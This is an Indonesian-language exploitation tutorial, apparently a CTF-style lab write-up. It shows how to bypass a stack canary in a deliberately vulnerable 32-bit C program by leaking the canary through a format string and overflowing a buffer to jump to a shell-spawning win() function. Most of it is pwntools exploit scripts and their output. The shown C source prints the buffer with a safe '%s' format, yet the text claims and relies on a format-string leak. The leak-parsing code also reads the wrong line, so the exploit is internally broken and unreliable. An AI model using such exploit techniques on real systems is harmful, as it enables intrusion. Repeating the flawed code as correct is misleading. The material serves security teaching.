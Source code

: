 ```yaml
---
title: Bypassing Stack Canaries (Leak + Write) - Pwn03.1
date: 2025-08-20
Tags: ["Pwn"]
---
```


## 1. Basic File Checks

Lakukan pemeriksaan awal pada biner:

```bash
# Compile dengan stack canary
gcc -m32 -fstack-protector-all bof4.c -o bof4

# Periksa properti file
file bof4
checksec bof4
```

**Output:**
```
bof4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=..., for GNU/Linux 3.2.0, not stripped

[*] '/home/user/bof4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

**Kesimpulan:** Biner 32-bit dengan proteksi **Stack Canary** dan **NX Enabled**, namun tanpa PIE (alamat fungsi statis).

## 2. Review Source Code

**bof4.c:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    printf("Congrats, you bypassed the canary!\n");
    system("/bin/sh");
}

void vuln() {
    char buf[64];
    puts("Level 4: Canary is enabled. Can you bypass it?");
    printf("Input: ");
    fgets(buf, 256, stdin);  // VULNERABILITY: Buffer overflow!
    printf("You said: %s\n", buf); // VULNERABILITY: Format string
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    vuln();
    puts("Exiting...");
    return 0;
}
```

**Vulnerabilities:**
1. **Buffer Overflow:** `fgets` membaca 256 byte ke buffer 64 byte.
2. **Format String:** `printf(buf)` memungkinkan leak data dari stack.

**Target:** Eksploitasi untuk menjalankan fungsi `win()`.

## 3. Analisis Assembly dengan pwndbg

Breakdown fungsi `vuln`:

```bash
gdb ./bof4
disass vuln
```

**Output Penting:**
```
   0x080491d4 <+18>:    mov    eax,gs:0x14        ; Load canary dari TLS
   0x080491da <+24>:    mov    DWORD PTR [ebp-0xc],eax ; Simpan canary di [ebp-0xc]
   ...
   0x08049218 <+86>:    call   0x8049060 <fgets@plt> ; fgets(buf, 256, stdin)
   ...
   0x08049233 <+113>:   xor    eax,DWORD PTR gs:0x14 ; Verifikasi canary
   0x0804923a <+120>:   je     0x8049241 <vuln+127>   ; Jika valid, lanjutkan
   0x0804923c <+122>:   call   0x80490a0 <__stack_chk_fail_local> ; Jika corrupt, abort
```

**Layout Stack di `vuln()`:**
| Alamat Relatif | Konten          | Ukuran |
|----------------|-----------------|--------|
| `ebp - 0x4c`   | `buf[64]`       | 64 byte|
| `ebp - 0x0c`   | **Canary**      | 4 byte |
| `ebp + 0x00`   | Saved EBP       | 4 byte |
| `ebp + 0x04`   | Return Address  | 4 byte |

**Offset Penting:**
- Start buffer ke canary: **64 byte**
- Start buffer ke return address: 64 + 4 (canary) + 4 (saved ebp) = **72 byte**

## 4. Strategi Exploit: Canary Leak & Bypass

Langkah-langkah:
1. **Leak Canary:** Manfaatkan format string `printf(buf)` untuk membaca nilai canary dari stack.
2. **Bypass Check:** Gunakan nilai canary yang telah dileak pada payload overflow agar check dapat passed.
3. **Hijack EIP:** Timpa return address dengan alamat fungsi `win`.

## 5. Langkah 1: Leak Canary via Format String

Canary disimpan di stack. Kita gunakan format specifier `%p` atau `$p` untuk membacanya.

**Fuzzing Posisi Canary:**
```python
#!/usr/bin/env python3
from pwn import *

context.binary = './bof4'
p = process('./bof4')

# Kirim payload fuzz
payload = b''
for i in range(1, 20):
    payload += f'%{i}$08p '.encode()  # %[pos]$p

p.sendline(payload)
response = p.clean()
print(response.decode())
p.close()
```

**Contoh Output:**
```
You said: 0xffffd5cc 0x00000064 0xf7f9c580 0xffffffff ... 0x5c9e1a00 ... 0xf7de4c8d
```
Cari nilai yang **berakhiran `0x00`** (null byte), seperti `0x5c9e1a00`. Itu adalah canary. Misalnya ditemukan di posisi ke-13.

**Script Leak Canary:**
```python
p.recvuntil(b"Input: ")
payload = b'%13$p'  # Langsung ambil dari posisi yang diduga
p.sendline(payload)

# Parse output
leaked_line = p.recvuntil(b"You said:").split(b'\n')[-2]  # Ambil baris sebelum "You said:"
canary = int(leaked_line, 16)  # Konversi string hex ke integer
log.info(f"Leaked canary: {hex(canary)}")
```

## 6. Langkah 2 & 3: Bangun Payload dan Hijack Control Flow

Setelah canary diketahui, bangun payload overflow yang mempertahankan nilainya.

```python
# Offset
offset_to_canary = 64
offset_to_ret = offset_to_canary + 4 + 4  # +4 (canary) +4 (saved ebp)

# Alamat win (dapat dari gdb: p win, atau objdump -t bof4 | grep win)
win_addr = 0x80491a6

# Bangun payload
payload = b'A' * offset_to_canary   # Isi buffer
payload += p32(canary)              # Timpa canary dengan nilai yang benar
payload += b'B' * 4                 # Timpa Saved EBP (bisa junk data)
payload += p32(win_addr)            # Timpa Return Address

p.sendline(payload)
p.interactive() # Enjoy your shell!
```

## 7. Full Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

context.binary = './bof4'
context.log_level = 'info'

p = process('./bof4')

# [1] LEAK CANARY
p.recvuntil(b"Input: ")
p.sendline(b'%13$p')  # Ganti 13 dengan posisi canary yang sesuai

leak = p.recvuntil(b"You said:").split(b'\n')[-2]
canary = int(leak, 16)
log.success(f"Canary leaked: {hex(canary)}")

# [2] BUILD OVERFLOW PAYLOAD
p.recvuntil(b"Input: ")

offset = 64
win_addr = 0x80491a6

payload = flat({
    offset: p32(canary),  # Letakkan canary yang benar di offset 64
    72: p32(win_addr)     # Letakkan alamat win di offset 72
})

p.sendline(payload)

# [3] GET SHELL
p.interactive()
```

**Penjelasan `flat()`:**  
Fungsi `flat` dari pwntools secara pintar mengatur payload.
- `{64: p32(canary)}` artinya di offset ke-64, tulis nilai canary.
- `{72: p32(win_addr)}` artinya di offset ke-72, tulis alamat `win`.
- Area antara 64-72 (yaitu saved EBP) otomatis diisi junk data.

**Eksekusi:**
```bash
$ python3 exploit.py
[+] Canary leaked: 0x5c9e1a00
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$
```
